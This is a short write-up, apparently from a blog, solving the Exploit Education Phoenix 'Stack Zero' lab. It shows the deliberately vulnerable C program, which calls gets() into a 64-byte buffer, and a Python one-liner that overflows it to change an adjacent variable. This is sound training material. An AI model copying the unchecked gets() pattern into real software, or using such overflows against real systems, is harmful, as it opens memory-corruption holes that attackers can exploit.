 ```yaml
---
title: " Exploit Education | Phoenix | Stack Zero"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```




```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

The code uses **gets** function which can take input more than buffer length, hence the exploit :)

This level only asks to change the value of **changeme** to any value other than zero so we can just enter any random input that exceeds the buffer length to overwrite the value of **changeme**.

# Solution:

```
$ python -c "print 'A'*100" | /opt/phoenix/amd64/stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```
